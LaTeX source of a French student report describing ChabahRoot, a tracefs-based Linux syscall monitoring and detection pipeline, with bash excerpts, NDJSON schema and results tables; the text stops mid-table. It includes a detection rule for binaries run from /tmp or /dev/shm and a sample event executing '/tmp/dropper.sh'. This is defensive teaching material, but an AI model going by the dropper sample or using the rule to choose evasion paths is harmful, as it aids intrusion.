\documentclass[12pt,a4paper]{report}

% ---------- Références (fichier externe simulé) ----------
\begin{filecontents*}{references.bib}
@online{kernel-ftrace,
  title        = {ftrace --- Function Tracer},
  organization = {The Linux Kernel Documentation},
  year         = {2026},
  url          = {https://www.kernel.org/doc/html/latest/trace/ftrace.html},
  urldate      = {2026-05-13}
}
@online{kernel-debugging,
  title        = {Using the tracer for debugging},
  organization = {The Linux Kernel Documentation},
  year         = {2026},
  url          = {https://www.kernel.org/doc/html/latest/trace/debugging.html},
  urldate      = {2026-05-13}
}
@online{ndjson-spec,
  title        = {NDJSON --- Newline Delimited JSON},
  author       = {{NDJSON contributors}},
  year         = {2024},
  url          = {https://github.com/ndjson/ndjson-spec},
  urldate      = {2026-05-13}
}
@misc{rfc8259,
  author       = {Bray, Tim},
  title        = {The JavaScript Object Notation (JSON) Data Interchange Format},
  year         = {2017},
  howpublished = {RFC 8259},
  url          = {https://www.rfc-editor.org/rfc/rfc8259},
  urldate      = {2026-05-13}
}
@online{auditd-man,
  title        = {auditd(8) --- Linux manual page},
  organization = {man7.org},
  year         = {2025},
  url          = {https://man7.org/linux/man-pages/man8/auditd.8.html},
  urldate      = {2026-05-13}
}
@inproceedings{forrest1996,
  author    = {Forrest, Stephanie and Hofmeyr, Steven A. and Somayaji, Anil and Longstaff, Thomas A.},
  title     = {A Sense of Self for Unix Processes},
  booktitle = {Proceedings of the 1996 IEEE Symposium on Security and Privacy},
  year      = {1996},
  pages     = {120--128},
  publisher = {IEEE},
  url       = {https://www.cs.unm.edu/~forrest/publications/int_decssc.pdf},
  urldate   = {2026-05-13}
}
\end{filecontents*}

% ---------- Packages ----------
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[provide=*,french]{babel}
\usepackage{geometry}
\usepackage{hyperref}
\usepackage{graphicx}
\usepackage{array}
\usepackage{booktabs}
\usepackage{longtable}
\usepackage{caption}
\usepackage{setspace}
\usepackage{tikz}
\usepackage{listings}
\usepackage{csquotes}
\usepackage[backend=bibtex,style=numeric,sorting=nyt]{biblatex}
\addbibresource{references.bib}

% ---------- Mise en page et style ----------
\geometry{left=2.5cm,right=2.5cm,top=2.5cm,bottom=2.5cm}
\setstretch{1.15}

% Couleurs
\usepackage{xcolor}
\definecolor{darkblue}{RGB}{0,51,102}

% Hyperliens sobres
\hypersetup{
  colorlinks=true,
  linkcolor=black,
  urlcolor=darkblue,
  citecolor=black
}

% En-tête propre
\usepackage{fancyhdr}
\pagestyle{fancy}
\fancyhf{}
\fancyhead[R]{\thepage}
\renewcommand{\headrulewidth}{0pt}

% Titres des chapitres en bleu foncé
\usepackage{titlesec}
\titleformat{\chapter}[display]
  {\normalfont\huge\bfseries\color{darkblue}}
  {\chaptertitlename\ \thechapter}
  {20pt}
  {\Huge\color{darkblue}}
\titleformat{name=\chapter,numberless}[display]
  {\normalfont\huge\bfseries\color{darkblue}}
  {}
  {0pt}
  {\Huge\color{darkblue}}

% ---------- Commandes personnelles ----------
\usetikzlibrary{arrows.meta,positioning,shapes.geometric,fit}

\newcommand{\tracefs}{\textit{tracefs}}
\newcommand{\ebpf}{\textit{eBPF}}
\newcommand{\auditd}{\textit{auditd}}
\newcommand{\ndjson}{\textit{NDJSON}}
\newcommand{\jsonfmt}{\textit{JSON}}
\newcommand{\jq}{\textit{jq}}
\newcommand{\stdout}{\textit{stdout}}
\newcommand{\stderr}{\textit{stderr}}
\newcommand{\shellterm}{\textit{shell}}

\lstdefinelanguage{bash}{
  morekeywords={if,then,else,fi,for,do,done,case,esac,while,in,function,local,readonly,return,exit},
  sensitive=true,
  morecomment=[l]{\#},
  morestring=[b]",
  morestring=[b]'
}

\lstdefinelanguage{json}{
  basicstyle=\ttfamily\small,
  showstringspaces=false,
  breaklines=true
}

\lstset{
  basicstyle=\ttfamily\small,
  frame=single,
  breaklines=true,
  columns=fullflexible,
  keepspaces=true,
  captionpos=b
}

% ---------- Document ----------
\begin{document}

% ---------- Page de garde ----------
\begin{titlepage}
  \begin{minipage}[t]{0.2\textwidth}
    \vspace{0pt}
    % Placeholder pour le logo de l'université (image à fournir)
    \includegraphics[height=2cm]{logo_univ}
  \end{minipage}
  \hfill
  \begin{minipage}[t]{0.2\textwidth}
    \vspace{0pt}
    \flushright
    % Placeholder pour le logo de l'école (image à fournir)
    \includegraphics[height=2cm]{logo_ecole}
  \end{minipage}

  \vspace{2.5cm}

  \begin{center}
    {\large [Nom de l'établissement] \par}
    \vspace{0.5cm}
    {\large Département / Filière : [Filière] \par}
    {\large Niveau : [Niveau] \par}
    \vspace{2.0cm}
    {\Huge \textbf{ChabahRoot} \par}
    \vspace{0.4cm}
    {\LARGE Plateforme de télémétrie noyau Linux fondée sur \tracefs \par}
    \vspace{2.5cm}

    {\large \textbf{Réalisé par :} \par}
    \vspace{0.3cm}
    \begin{tabular}{c}
      \large [EL HARMALI Mousaab] \\
      \large [Prénom NOM 2] \\
      \large [Prénom NOM 3] \\
      \large [Prénom NOM 4]
    \end{tabular}

    \vspace{1.5cm}

    {\large \textbf{Encadré par :} [Prénom NOM] \par}

    \vfill
    {\large Année universitaire : [2025-2026] \par}
    \vspace{0.3cm}
    {\large Date de soumission : \today \par}
  \end{center}
\end{titlepage}

% ---------- Remerciements ----------
\chapter*{Remerciements}
\addcontentsline{toc}{chapter}{Remerciements}
Mes remerciements s’adressent en premier lieu à [Prénom NOM], pour l’encadrement méthodologique et l’attention portée aux choix techniques structurants.
Ils vont également à l’équipe pédagogique de [Nom de l'établissement], dont les enseignements en génie logiciel et en cybersécurité ont fourni le cadre nécessaire à la réalisation de ce travail.
Une reconnaissance particulière est due aux collègues et camarades de [Filière], pour les échanges techniques, les relectures et les retours sur les scénarios de test.
Enfin, une gratitude sincère est adressée à [Prénom NOM] et à l’entourage personnel de l’auteur pour le soutien moral et la disponibilité pendant la période de consolidation du projet.

% ---------- Résumé ----------
\chapter*{Résumé}
\addcontentsline{toc}{chapter}{Résumé}
ChabahRoot est une plateforme de télémétrie noyau Linux fondée sur \tracefs, c’est-à-dire le système de fichiers de traçage exposé par le noyau pour piloter certains mécanismes d’observation. L’objectif est de capter des appels système sensibles, de les convertir en événements structurés au format \ndjson, puis d’appliquer des règles de détection lisibles dans une chaîne de traitement sobre. La version consolidée repose sur cinq modules : acquisition noyau, normalisation, détection, orchestration d’analyse et socle commun. Les essais hors ligne confirment le traitement de cinq événements d’exemple et le déclenchement de quatre alertes représentatives. L’approche retenue privilégie la cohérence architecturale, la portabilité et la lisibilité opérationnelle plutôt qu’une instrumentation bas niveau plus complexe.

% ---------- Tables des matières, figures, tableaux ----------
\tableofcontents
\listoffigures
\listoftables

% ---------- Liste des acronymes ----------
\chapter*{Liste des acronymes}
\addcontentsline{toc}{chapter}{Liste des acronymes}
\begin{longtable}{>{\raggedright\arraybackslash}p{3cm} >{\raggedright\arraybackslash}p{10cm}}
\tracefs & Système de fichiers de traçage du noyau Linux. \\
\ebpf & Mécanisme d’exécution de programmes embarqués dans le noyau Linux. \\
\ndjson & Newline Delimited JSON, format dans lequel chaque ligne contient un objet \jsonfmt autonome. \\
PID & Identifiant numérique d’un processus. \\
PPID & Identifiant numérique du processus parent. \\
SUID & Mécanisme d’exécution avec identifiant effectif élevé. \\
UID & Identifiant numérique d’utilisateur. \\
SIEM & Plateforme de centralisation et de corrélation d’événements de sécurité. \\
\jsonfmt & JavaScript Object Notation, format textuel structuré pour l’échange de données. \\
ASCII & Jeu de caractères de base utilisé pour représenter des textes simples sur un octet. \\
\jq & Outil en ligne de commande pour filtrer et transformer du \jsonfmt. \\
\end{longtable}

\clearpage
\pagenumbering{arabic}

% ---------- Chapitre 1 : Introduction ----------
\chapter{Introduction générale}
La surveillance du noyau Linux répond à une exigence simple : observer assez tôt des événements capables de révéler un changement de comportement système avant qu’ils ne soient noyés dans des journaux applicatifs plus bavards. Les appels système liés à l’exécution, au changement d’identité ou à certains réglages de processus constituent à cet égard des points de contrôle pertinents. Leur observation n’implique toutefois pas nécessairement une infrastructure d’instrumentation lourde. Une solution de niveau universitaire ou de prototypage avancé gagne souvent en valeur lorsqu’elle reste déployable, lisible et testable dans un environnement courant.

ChabahRoot s’inscrit dans cette logique. La solution adopte \tracefs comme fondation technique, puis construit une chaîne de traitement en scripts \shellterm capable d’activer des tracepoints, de transformer les lignes brutes en événements structurés, de les confronter à des règles de détection et d’offrir une orchestration d’usage cohérente. L’architecture finale repose sur cinq modules fonctionnels : \texttt{veille\_kernel}, \texttt{chaines\_d\_ecoute}, \texttt{vigie\_comportementale}, \texttt{chambre\_d\_analyse} et \texttt{socle\_commun}. Chaque module possède une entrée, une sortie et un périmètre de responsabilité explicite.

Cette organisation répond à une difficulté concrète des projets systèmes de petite taille : lorsque plusieurs stratégies techniques coexistent dans un même dépôt, la dette structurelle finit par fragiliser davantage l’exécution que l’absence d’une fonctionnalité supplémentaire. Le choix final a donc consisté à stabiliser une architecture unifiée, compatible avec les outils disponibles localement, compréhensible à la lecture du code et défendable dans un cadre académique de génie logiciel et de cybersécurité.

% ---------- Chapitre 2 : Contexte technique ----------
\chapter{Contexte technique et choix technologique}
\section{Fondement technique de \tracefs}
\tracefs est un système de fichiers exposé par le noyau Linux afin d’administrer certains mécanismes de traçage, notamment ceux utilisés par l’infrastructure \textit{ftrace}. Il permet d’activer des points de trace, de lire des flux continus comme \texttt{trace\_pipe} et de régler l’état global du traçage à travers des fichiers de contrôle. Dans ChabahRoot, ce mode d’interaction remplace une chaîne \ebpf, c’est-à-dire des programmes spécialisés chargés dans le noyau, pour trois raisons. La première tient à la simplicité de déploiement : aucune compilation dédiée au noyau courant n’est requise. La seconde concerne la portabilité : les mécanismes visés sont disponibles sur de nombreux noyaux Linux récents. La troisième relève de la lisibilité : les scripts écrivent dans des chemins explicites et consomment un flux textuel simple à transformer \autocite{kernel-ftrace,kernel-debugging}.

\section{Comparaison brève avec \auditd et \ebpf}
La comparaison la plus utile porte sur trois critères seulement. En matière de complexité de déploiement, \tracefs reste plus léger qu’une chaîne \ebpf, car il évite la gestion d’un programme noyau dédié ; il reste également plus direct qu’un service \auditd lorsqu’on cherche une chaîne de traitement maîtrisée dans le dépôt lui-même plutôt qu’un sous-système complet d’audit du système d’exploitation \autocite{auditd-man}. En matière de portabilité, \tracefs offre un compromis favorable pour un mini-projet : il dépend du noyau Linux, mais sans exiger un environnement de compilation précis. En matière de lisibilité de la chaîne de traitement, la combinaison \tracefs + scripts \shellterm + \ndjson est particulièrement claire : l’acquisition, la normalisation et la détection sont visibles dans des fichiers distincts.

\begin{table}[h]
\centering
\begin{tabular}{>{\raggedright\arraybackslash}p{3.2cm} >{\raggedright\arraybackslash}p{3.8cm} >{\raggedright\arraybackslash}p{3.2cm} >{\raggedright\arraybackslash}p{3.2cm}}
\toprule
Critère & \tracefs & \auditd & \ebpf \\
\midrule
Complexité de déploiement & Faible à modérée ; activation par fichiers de contrôle & Modérée ; service d’audit et configuration dédiée & Élevée ; chaîne de chargement et dépendances noyau \\
Portabilité & Bonne sur noyaux Linux récents avec traçage exposé & Bonne sur Linux, mais dépend d’un service d’audit complet & Variable selon le noyau, les en-têtes et l’outillage disponible \\
Lisibilité de la chaîne & Élevée dans une chaîne \shellterm textuelle & Moyenne ; davantage intégrée au sous-système d’audit & Plus faible dans un mini-projet si l’équipe maîtrise peu l’instrumentation noyau \\
\bottomrule
\end{tabular}
\caption{Comparaison ciblée de trois approches de collecte d’événements système}
\end{table}

\section{Remarque sur le format de données}
Le format \ndjson, c’est-à-dire une suite d’objets \jsonfmt séparés par des fins de ligne, convient particulièrement à une chaîne de traitement en ligne de commande. Chaque événement reste autonome, peut être transmis par tube, compté par ligne et validé indépendamment, tout en restant conforme à la logique générale du format \jsonfmt \autocite{ndjson-spec,rfc8259}. Cette propriété explique son choix comme sortie du normaliseur.

% ---------- Chapitre 3 : Architecture ----------
\chapter{Architecture du système}
\section{Vue d’ensemble des modules}
Le système s’appuie sur cinq modules. Le module \texttt{veille\_kernel} active les tracepoints Linux visés et lit les événements bruts depuis \texttt{trace\_pipe}. Le module \texttt{chaines\_d\_ecoute} transforme ces lignes en événements \ndjson normalisés. Le module \texttt{vigie\_comportementale} évalue les règles de détection, tout en proposant un audit complémentaire et un moniteur défensif local. Le module \texttt{chambre\_d\_analyse} orchestre l’usage de la chaîne sur un corpus d’exemple, une entrée standard ou un fichier. Le module \texttt{socle\_commun} fournit la configuration partagée et la journalisation.

\begin{table}[h]
\centering
\begin{tabular}{>{\raggedright\arraybackslash}p{2.8cm} >{\raggedright\arraybackslash}p{3.2cm} >{\raggedright\arraybackslash}p{3.3cm} >{\raggedright\arraybackslash}p{3.3cm} >{\raggedright\arraybackslash}p{2.6cm}}
\toprule
Module & Rôle & Entrée concrète & Sortie concrète & Dépendances \\
\midrule
\texttt{veille\_kernel} & Acquisition noyau & \texttt{/sys/kernel/tracing/events/...}, \texttt{trace\_pipe} & Lignes brutes de type \texttt{pid=... event\_type=...} & \texttt{bash}, privilèges de superutilisateur, \tracefs \\
\texttt{chaines\_d\_ecoute} & Normalisation & Flux brut ou corpus d’exemple & Événements \ndjson ligne par ligne & \texttt{bash}, \jq \\
\texttt{vigie\_comportementale} & Détection et contexte & Événements \ndjson & Alertes, journaux et fichiers d’état & \texttt{bash}, \jq, \texttt{ps}, \texttt{find} \\
\texttt{chambre\_d\_analyse} & Orchestration d’usage & Corpus d’exemple, \stdout, fichier externe & Chaîne complète de détection & Modules précédents \\
\texttt{socle\_commun} & Services communs & Configuration et chemins locaux & Journalisation et validation partagée & \texttt{bash}, \jq selon les fonctions \\
\bottomrule
\end{tabular}
\caption{Description fonctionnelle des cinq modules de ChabahRoot}
\end{table}

\section{Diagramme de flux de données}
\begin{figure}[h]
\centering
% Diagramme réduit pour éviter la coupure

\begin{tikzpicture}[
  scale=0.75, every node/.style={transform shape},
  node distance=1.7cm and 1.6cm,
  box/.style={draw, rounded corners, align=center, minimum width=3.5cm, minimum height=1.2cm},
  arrow/.style={-{Latex[length=3mm]}, thick}
]
\node[box] (kernel) {Noyau Linux\\tracepoints \texttt{execve}, \texttt{setuid}, \texttt{setgid}, \texttt{prctl}};
\node[box, below=of kernel] (m1) {\texttt{veille\_kernel}\\activation et lecture \tracefs};
\node[box, below=of m1] (m2) {\texttt{chaines\_d\_ecoute}\\normalisation en \ndjson};
\node[box, below left=of m2, xshift=-1cm] (m3) {\texttt{vigie\_comportementale}\\moteur de règles};
\node[box, below right=of m2, xshift=1cm] (shared) {\texttt{socle\_commun}\\configuration et journaux};
\node[box, below=3cm of m2] (m4) {\texttt{chambre\_d\_analyse}\\orchestration d’usage};
\draw[arrow] (kernel) -- node[right]{événements bruts} (m1);
\draw[arrow] (m1) -- node[right]{lignes structurées} (m2);
\draw[arrow] (m2) -- node[above left]{événements \ndjson} (m3);
\draw[arrow] (m2) -- node[above right]{chemins et journaux} (shared);
\draw[arrow] (m3) -- node[left]{alertes et sorties} (m4);
\draw[arrow] (shared) -- node[right]{configuration partagée} (m4);
\draw[arrow] (shared) -- (m3);
\end{tikzpicture}
\caption{Flux de données entre acquisition noyau, normalisation, détection et orchestration}
\end{figure}

\section{Schéma \ndjson réellement produit}
Le normaliseur produit un objet \jsonfmt par ligne. Les champs observés dans le corpus d’exemple sont listés dans le tableau suivant.

\begin{table}[h]
\centering
\begin{tabular}{>{\raggedright\arraybackslash}p{3.5cm} >{\raggedright\arraybackslash}p{2.5cm} >{\raggedright\arraybackslash}p{6.5cm}}
\toprule
Champ & Type & Description \\
\midrule
\texttt{timestamp} & entier & Horodatage en secondes \\
\texttt{timestamp\_ns} & entier & Horodatage en nanosecondes \\
\texttt{event\_type} & chaîne & Type logique de l’événement, par exemple \texttt{exec} ou \texttt{setuid} \\
\texttt{process.pid} & entier & Identifiant du processus \\
\texttt{process.ppid} & entier & Identifiant du processus parent \\
\texttt{process.comm} & chaîne & Nom court du processus \\
\texttt{process.cmdline} & chaîne & Ligne de commande connue ou reconstruite \\
\texttt{process.parent\_comm} & chaîne & Nom court du parent \\
\texttt{process.parent\_cmdline} & chaîne & Ligne de commande du parent \\
\texttt{credentials.uid} & entier & Identifiant utilisateur effectif \\
\texttt{credentials.gid} & entier & Identifiant de groupe effectif \\
\texttt{data.argv} & chaîne & Argument ou donnée utile à la règle \\
\texttt{normalized\_at} & entier & Horodatage de normalisation \\
\texttt{source} & chaîne & Nom du module source normalisé \\
\bottomrule
\end{tabular}
\caption{Champs du schéma \ndjson utilisé dans ChabahRoot}
\end{table}

\begin{lstlisting}[language=json,caption={Exemple commenté d’un événement \ndjson normalisé},label={lst:ndjson-exemple}]
{
  "timestamp": 1710000001,                // horodatage en secondes
  "timestamp_ns": 1710000001000000000,    // horodatage en nanosecondes
  "event_type": "exec",                   // type logique interprete
  "process": {
    "pid": 2101,                          // identifiant du processus
    "ppid": 1024,                         // identifiant du parent
    "comm": "bash",                       // nom court du processus
    "cmdline": "/tmp/dropper.sh",         // ligne de commande
    "parent_comm": "unknown",             // nom du parent si connu
    "parent_cmdline": ""
  },
  "credentials": {
    "uid": 1000,
    "gid": 1000
  },
  "data": {
    "argv": "/tmp/dropper.sh"             // argument exploite par les regles
  },
  "normalized_at": 1778674411,
  "source": "chaines_d_ecoute"
}
\end{lstlisting}

\section{Exemple réel de règle de détection}
Le moteur de règles lit le fichier \texttt{detection\_rules.json}. L’exemple ci-dessous correspond à la première règle active du projet.

\begin{lstlisting}[language=json,caption={Règle réelle de détection d’exécution dans un emplacement temporaire},label={lst:regle-json}]
{
  "id": "rule_exec_001",
  "name": "Binary execution from unsafe location",
  "description": "Detecte l'execution de binaires depuis /tmp, /dev/shm ou repertoires temporaires",
  "type": "EXECUTION",
  "severity": "HIGH",
  "enabled": true,
  "condition": ".event_type == \"exec\" and (.data.argv | test(\"^(/tmp|/dev/shm|/var/tmp)/\"))",
  "actions": ["journal", "slack"],
  "threshold": 1,
  "window": 60
}
\end{lstlisting}

% ---------- Chapitre 4 : Implémentation ----------
\chapter{Implémentation et décisions techniques}
\section{Activation des tracepoints et émission des événements}
Le composant \texttt{tracer.sh} concentre toutes les écritures dans \tracefs. L’extrait suivant illustre l’activation des tracepoints et l’écriture de leur liste dans un fichier d’état temporaire.

\begin{lstlisting}[language=bash,caption={Activation des tracepoints dans \texttt{veille\_kernel/tracer.sh}},label={lst:tracefs-shell}]
readonly TRACEFS_PATH="/sys/kernel/tracing"
readonly ENABLED_EVENTS_FILE="/tmp/chabah_enabled_events"
readonly TRACEPOINTS=(
    "syscalls/sys_enter_execve"
    "syscalls/sys_enter_setuid"
    "syscalls/sys_enter_setgid"
    "syscalls/sys_enter_prctl"
)

enable_tracepoints() {
    local tracepoint

    echo 0 > "$TRACEFS_PATH/tracing_on" 2>/dev/null || {
        log_error "Cannot write to tracefs; check root access"
        return 1
    }

    : > "$TRACEFS_PATH/trace" 2>/dev/null || true

    for tracepoint in "${TRACEPOINTS[@]}"; do
        echo 1 > "$TRACEFS_PATH/events/$tracepoint/enable" 2>/dev/null || {
            log_warn "Could not enable $tracepoint"
            continue
        }
    done

    printf '%s\n' "${TRACEPOINTS[@]}" > "$ENABLED_EVENTS_FILE"
    echo 1 > "$TRACEFS_PATH/tracing_on"
}
\end{lstlisting}

Deux décisions techniques apparaissent ici. La première consiste à conserver une liste fermée de tracepoints, ce qui réduit le bruit et simplifie l’interprétation des événements. La seconde consiste à journaliser les anomalies d’activation sans interrompre immédiatement la boucle si un tracepoint spécifique manque, afin de préserver une capture partielle exploitable lorsque le noyau ne propose pas exactement le même ensemble de points de trace.

\section{Résolution des chemins dans \texttt{socle\_commun}}
Le module \texttt{utilitaires.sh} résout les chemins de journalisation à partir de la racine du projet, puis prévoit un repli vers \texttt{/tmp/chabahroot} lorsque le chemin principal n’est pas accessible. L’extrait suivant montre cette mécanique.

\begin{lstlisting}[language=bash,caption={Résolution des chemins de journalisation dans \texttt{socle\_commun/utilitaires.sh}},label={lst:paths-shell}]
readonly PROJECT_ROOT="$(cd "$(dirname "${BASH_SOURCE[0]}")/../.." && pwd)"
LOG_DIR="${LOG_DIR:-$PROJECT_ROOT/logs}"
LOG_FILE="${LOG_FILE:-$LOG_DIR/chabah.log}"
AUDIT_LOG="${AUDIT_LOG:-$LOG_DIR/audit.log}"

resolve_log_paths() {
    if [[ "$LOG_DIR" != /* ]]; then
        LOG_DIR="$PROJECT_ROOT/$LOG_DIR"
    fi

    if [[ "$LOG_FILE" != /* ]]; then
        LOG_FILE="$PROJECT_ROOT/$LOG_FILE"
    fi

    if [[ "$AUDIT_LOG" != /* ]]; then
        AUDIT_LOG="$PROJECT_ROOT/$AUDIT_LOG"
    fi
}

init_log_storage() {
    resolve_log_paths

    if ! mkdir -p "$LOG_DIR" 2>/dev/null; then
        LOG_DIR="/tmp/chabahroot"
        LOG_FILE="$LOG_DIR/chabah.log"
        AUDIT_LOG="$LOG_DIR/audit.log"
        mkdir -p "$LOG_DIR"
    fi
}
\end{lstlisting}

Cette résolution évite qu’un chemin relatif fourni par la configuration soit interprété différemment selon le répertoire courant de lancement. Le repli vers \texttt{/tmp/chabahroot} répond à une contrainte d’exécution concrète : l’absence de droit d’écriture dans le répertoire prévu ne doit pas empêcher totalement la journalisation des messages de contrôle.

\begin{figure}[h]
\centering
% Diagramme de décision réduit

\begin{tikzpicture}[
  scale=0.75, every node/.style={transform shape},
  node distance=1.7cm and 1.2cm,
  box/.style={draw, rounded corners, align=center, minimum width=3.3cm, minimum height=1cm},
  decision/.style={draw, diamond, aspect=2, align=center},
  arrow/.style={-{Latex[length=3mm]}, thick}
]
\node[box] (start) {Valeurs initiales\\\texttt{LOG\_DIR}, \texttt{LOG\_FILE}, \texttt{AUDIT\_LOG}};
\node[decision, below=of start] (abs) {chemins absolus ?};
\node[box, below left=of abs, xshift=-0.6cm] (proj) {préfixage par\\\texttt{PROJECT\_ROOT}};
\node[box, below right=of abs, xshift=0.6cm] (keep) {chemins conservés\\sans modification};
\node[decision, below=2.1cm of abs] (writable) {répertoire principal\\accessible en écriture ?};
\node[box, below left=of writable, xshift=-0.7cm] (tmp) {repli vers\\\texttt{/tmp/chabahroot}};
\node[box, below right=of writable, xshift=0.7cm] (final) {création des journaux\\dans le répertoire cible};
\draw[arrow] (start) -- (abs);
\draw[arrow] (abs) -- node[above left]{non} (proj);
\draw[arrow] (abs) -- node[above right]{oui} (keep);
\draw[arrow] (proj) |- (writable);
\draw[arrow] (keep) |- (writable);
\draw[arrow] (writable) -- node[above left]{non} (tmp);
\draw[arrow] (writable) -- node[above right]{oui} (final);
\end{tikzpicture}
\caption{Chemin de décision utilisé par \texttt{socle\_commun} pour choisir l’emplacement des journaux}
\end{figure}

\section{Séparation des flux \stdout et \stderr}
La séparation entre \stdout et \stderr est une décision centrale dans ChabahRoot. Les événements normalisés et les lignes brutes doivent circuler dans les tubes sans être mélangés à des messages humains. À l’inverse, les informations de contrôle doivent rester visibles au terminal et consignées dans les journaux. Cette distinction est matérialisée dans \texttt{log\_message}, qui écrit à la fois dans le fichier de journal et sur \stderr, tandis que les fonctions de transformation écrivent leurs données utiles sur \stdout.

L’exemple concret le plus clair est le suivant. La commande de normalisation peut être reliée directement au moteur de règles. Si les messages \texttt{INFO} étaient imprimés sur \stdout, le moteur de règles recevrait des lignes non conformes au format \jsonfmt et rejetterait le flux. En les dirigeant vers \stderr, les événements transmis au pipe conservent leur intégrité et la chaîne reste exploitable.

\begin{lstlisting}[language=bash,caption={Exemple concret de chaîne propre grâce à la séparation \stdout/\stderr},label={lst:stdout-stderr}]
bash chabahroot/chaines_d_ecoute/ringbuf_reader.sh --sample 2>/dev/null \
  | timeout 2 bash chabahroot/vigie_comportementale/rules_engine.sh
\end{lstlisting}

\section{Remarque sur le choix des formats}
Le choix d’un format textuel structuré et d’outils \shellterm simples n’a pas pour but de minimiser la difficulté technique. Il sert à rendre chaque transformation vérifiable. Une chaîne composée de \tracefs, de scripts \shellterm et d’objets \ndjson reste observable de bout en bout, ce qui constitue une qualité importante en contexte pédagogique et en phase de consolidation.

% ---------- Chapitre 5 : Expérimentation ----------
\chapter{Expérimentation et résultats}
\section{Environnement de test}
Les essais réalisés localement ont été menés sur Ubuntu 24.04.4 LTS avec le noyau Linux 6.17.0-23-generic, sur une machine \texttt{x86\_64} équipée d’un processeur Intel Core i5-8300H à 8 processeurs logiques, 4 cœurs physiques et 1 socket. Cet environnement suffit pour les essais hors ligne et pour la validation syntaxique de l’ensemble des scripts. En revanche, l’activation effective de \tracefs dans la session d’évaluation observée n’a pas pu être menée à terme, faute de privilèges de superutilisateur disponibles.

\begin{table}[h]
\centering
\begin{tabular}{>{\raggedright\arraybackslash}p{4cm} >{\raggedright\arraybackslash}p{8cm}}
\toprule
Paramètre & Valeur observée \\
\midrule
Système d’exploitation & Ubuntu 24.04.4 LTS \\
Version du noyau & 6.17.0-23-generic \\
Architecture & \texttt{x86\_64} \\
Processeur & Intel Core i5-8300H CPU @ 2.30GHz \\
Nombre de processeurs logiques & 8 \\
Cœurs physiques & 4 \\
Accès superutilisateur dans la session & non disponible \\
\bottomrule
\end{tabular}
\caption{Environnement réel des essais observés localement}
\end{table}

\section{Tests hors ligne sans privilège de superutilisateur}
Les essais hors ligne utilisent le corpus d’exemple fourni avec le dépôt. Ils permettent de vérifier le fonctionnement du normaliseur, la cohérence des règles et l’orchestration d’analyse sans dépendre d’une activation noyau effective. Les mesures suivantes ont été observées directement pendant l’exécution locale.

\begin{table}[h]
\centering
\begin{tabular}{>{\raggedright\arraybackslash}p{3.7cm} >{\raggedright\arraybackslash}p{2.2cm} >{\raggedright\arraybackslash}p{2cm} >{\raggedright\arraybackslash}p{6cm}}
\toprule
Essai & Volume observé & Statut & Observation concrète \\
\midrule
Normalisation du corpus & 5 événements & réussi & production de 5 lignes \ndjson avec les champs \texttt{timestamp}, \texttt{event\_type}, \texttt{process}, \texttt{credentials}, \texttt{data} \\
